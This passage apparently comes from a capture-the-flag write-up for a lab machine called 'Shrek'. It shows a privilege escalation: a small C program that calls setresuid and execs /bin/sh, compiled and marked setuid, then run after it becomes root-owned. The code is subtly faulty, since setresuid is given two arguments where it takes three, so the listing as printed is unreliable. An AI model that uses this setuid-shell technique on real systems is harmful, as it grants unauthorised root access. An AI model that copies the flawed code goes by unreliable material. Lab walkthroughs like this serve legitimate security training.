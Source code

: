 Let's create a binary to spawn a shell: 

```c
#include <stdio.h> 
#include <stdlib.h> 
#include <unistd.h> 
int main( int argc, char *argv[] ) 
{ 
setresuid(0, 0); 
printf("ID: %d\n", geteuid()); 
execve("/bin/sh", NULL, NULL); 
} 
``` 

We now compile it, and set the output binary to be setuid. 

``` 
[sec@shrek src]$ gcc shell.c -o shell 
[sec@shrek src]$ chmod u+s shell 
``` 

Wait a few minutes and: 

![](https://image.ibb.co/fDdr16/7.png)

We have a root owned suid shell.  We just run it to get root privileges:  

![](https://image.ibb.co/kOuaTm/8.png)

Shrek got Shrekt!
